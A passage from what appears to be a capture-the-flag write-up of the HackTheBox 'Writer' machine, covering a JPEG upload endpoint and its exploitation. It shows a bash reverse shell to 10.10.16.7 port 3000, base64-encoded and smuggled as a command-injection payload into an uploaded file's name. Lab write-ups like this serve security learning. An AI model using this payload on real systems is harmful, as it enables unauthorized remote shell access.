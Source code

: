 Looking through the website, we notice that there is a ```/dashboard/stories/<post id>``` endpoint that allows for file upload, but we can only upload JPEG files
![JPEG File Upload](https://github.com/joelczk/writeups/blob/main/HTB/Images/writer/file_upload.PNG)

Upon the upload of the file, we notice that the file will be saved in ```http://writer.htb/static/img/``` and the image will be updated at ```http://writer.htb/blog/post/<post id>```

## Exploit
### Reverse shell via file uploads
We will first create a base64-encoded reverse shell payload. Afterwards, we have to create a JPEG image with the payload.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.7/3000 0>&1"' | base64
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNy8zMDAwIDA+
JjEi
                                                                                                 
┌──(kali㉿kali)-[~/Desktop]
└─$ touch '1.jpg; `echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNy8zMDAwIDA+JjEi| base64 -d | bash`;'
```

Afterwards, we will intercept the POST request during file upload to create the reverse shell.